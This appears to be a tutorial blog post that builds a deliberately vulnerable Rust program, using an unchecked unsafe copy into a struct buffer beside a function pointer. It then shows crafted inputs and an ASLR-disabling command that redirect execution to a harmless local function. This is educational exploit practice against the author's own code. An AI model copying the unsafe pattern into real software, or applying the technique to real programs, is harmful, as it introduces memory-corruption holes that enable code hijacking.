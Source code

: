 ```yaml
---
title: Playing with buffer overflow in Rust
---
```


## 1. Foreword

For a long time I wanted to play with a buffer overflow exploit. The idea is pretty simple: the "attacker" prepares specially crafted input, so that too many bytes are written into the buffer and, as a result, adjacent memory locations are overwritten, potentially changing the behavior of the program. Initially my idea was to implement this using C, but after I started learning Rust I was also curious how would it differ. In general, it's just a small exercise in using raw function pointers in Rust.

Of course, performing such attack in the wild is much harder than locally in our own program, where we can change the code, how it is executed, turn off protections and it's easy to check memory locations used. But still, it's fun ;)

## 2. An example in C

To avoid overcomplicating things I looked for a tutorial how to do it in C first. My choice was to use a struct with a buffer and a pointer to a function, which is executed after reading the first command line argument into the buffer. One of the easiest ways to make use of buffer overflow. This is the tutorial, which describes such example: [Into the art of Binary Exploitation 0x00000](https://infosecwriteups.com/into-the-art-of-binary-exploitation-0x000001-stack-based-overflow-50fe48d58f10).

And here is the code in C, taken from this tutorial:

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void abracadabra() {
 printf("Abracadabra! Function called!\n");
 exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*point)();
  } hackvist;

  hackvist.point = NULL;
  strcpy(hackvist.buffer, argv[1]);

  printf("abracadabra function address: %p\n",abracadabra);
  printf("hackvist.point after strcpy: %p\n", hackvist.point);
  if (hackvist.point) {
    fflush(stdout);
    hackvist.point();
  } else {
    printf("Try Again\n");
  }

  exit(0);
}
```

## 3. The code in Rust

My goal was to translate this code above into Rust. This is the function we'll try to call:
```Rust
fn abracadabra() {
    println!("Abracadabra! Function called!");
}
```

And this is the struct with a buffer, which we'll try to overflow:
```Rust
#[repr(C)]
struct Hackvist {
    buffer: [u8; 16],
    point: *const fn(),
}
```

We'll also need some unsafe function, to copy bytes without checking the size of the destination buffer. This can be done with `std::ptr::copy()`.

At the end, to make our life easier, we'll add printing of `abracadabra()` function address, as well as, the content of `hackvist.point`, so we can find out what should we provide as an input to call `abracadabra()`:
```Rust
println!("abracadabra function address: x{:0x}", abracadabra as usize);
println!("hackvist.point after strcpy: x{:0x}", hackvist.point as usize);
println!("hackvist.point after strcpy (in chars): {:?}", (hackvist.point as usize as u64).to_le_bytes().into_iter().map(|b| char::from(b)).collect::<String>());
```

Taken all of this together, this is the source code for this buffer overflow exercise:
```Rust
use std::env;
use std::ffi::OsString;
use std::os::unix::ffi::OsStrExt;

fn abracadabra() {
    println!("Abracadabra! Function called!");
}

#[repr(C)]
struct Hackvist {
    buffer: [u8; 16],
    point: *const fn(),
}

fn main() {
    let mut args: Vec<OsString> = env::args_os().into_iter().collect();
    let first_arg: OsString = args.remove(1);
    let input_bytes: &[u8] = first_arg.as_bytes();
    let mut hackvist = Hackvist {
        buffer: [0; 16],
        point: 0 as *const fn() -> (),
    };

    unsafe {
        std::ptr::copy(input_bytes.as_ptr(), hackvist.buffer.as_mut_ptr(), input_bytes.len())
    }

    println!("abracadabra function address: x{:0x}", abracadabra as usize);
    println!("hackvist.point after strcpy: x{:0x}", hackvist.point as usize);
    println!("hackvist.point after strcpy (in chars): {:?}", (hackvist.point as usize as u64).to_le_bytes().into_iter().map(|b| char::from(b)).collect::<String>());

    if hackvist.point as usize == 0 {
        println!("Try again");
    } else {
        let code: fn() = unsafe { std::mem::transmute(hackvist.point) };
        code();
    }
}
```

## 4. Running it!

Now, let's try to build it:
```
$ cargo build
```
And run (the values can differ on your computer):
```
$ ./target/debug/buffer-overflow "AAAABBBB"
abracadabra function address: x5597c4265bb0
hackvist.point after strcpy: x0
hackvist.point after strcpy (in chars): "\u{0}\u{0}\u{0}\u{0}\u{0}\u{0}\u{0}\u{0}"
Try again
```
This time the input string was too short `AAAABBBB` has only 8 bytes, so it wasn't enough to overflow our 16 byte buffer and write into `hackvist.point` function pointer. Let's try with longer input:

```
$ ./target/debug/buffer-overflow "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH"
abracadabra function address: x55e1e06cbbb0
hackvist.point after strcpy: x4646464645454545
hackvist.point after strcpy (in chars): "EEEEFFFF"
Segmentation fault (core dumped)
```
As we can see, we managed to overflow the buffer and write into the function pointer. It wasn't correctly set, so there was a segmentation fault.

Right now we'll want to change letters `EEEEFFFF` in the input string into `abracadabra()` function address. Let's try:
```
$ ./target/debug/buffer-overflow \
> $(python -c 'print "AAAABBBBCCCCDDDD\xb0\xbb\x6c\xe0\xe1\x55"')
abracadabra function address: x55d7609eabb0
hackvist.point after strcpy: x55e1e06cbbb0
hackvist.point after strcpy (in chars): "°»làáU\u{0}\u{0}"
Segmentation fault (core dumped)
```

It didn't work, even though the `hackvist.point` was "correctly" overwritten with `x55e1e06cbbb0`, which is exactly the `abracadabra()` function address from our previous run: `x55e1e06cbbb0`.

The reason for this is that on my machine, [address space layout randomization](https://en.wikipedia.org/wiki/Address_space_layout_randomization) is used to make buffer overflow attacks harder. This can be turned off by running the binary with:
```
$ setarch x86_64 -R ./target/debug/buffer-overflow \
> $(python -c 'print "AAAABBBBCCCCDDDD\xb0\xbb\x6c\xe0\xe1\x55"')
abracadabra function address: x55555555cbb0
hackvist.point after strcpy: x55e1e06cbbb0
hackvist.point after strcpy (in chars): "°»làáU\u{0}\u{0}"
Segmentation fault (core dumped)
```

This time the address has changed once again, but from now on, the `abracadabra()` function address shouldn't change, so we can use `x55555555cbb0` address in our input:

```
$ setarch x86_64 -R ./target/debug/buffer-overflow \
> $(python -c 'print "AAAABBBBCCCCDDDD\xb0\xcb\x55\x55\x55\x55"')
abracadabra function address: x55555555cbb0
hackvist.point after strcpy: x55555555cbb0
hackvist.point after strcpy (in chars): "°ËUUUU\u{0}\u{0}"
Abracadabra! Function called!
```

Success! Buffer overflow has overwritten the `hackvist.point` pointer with a valid function address and we have changed the program behaviour with our sneaky input :)
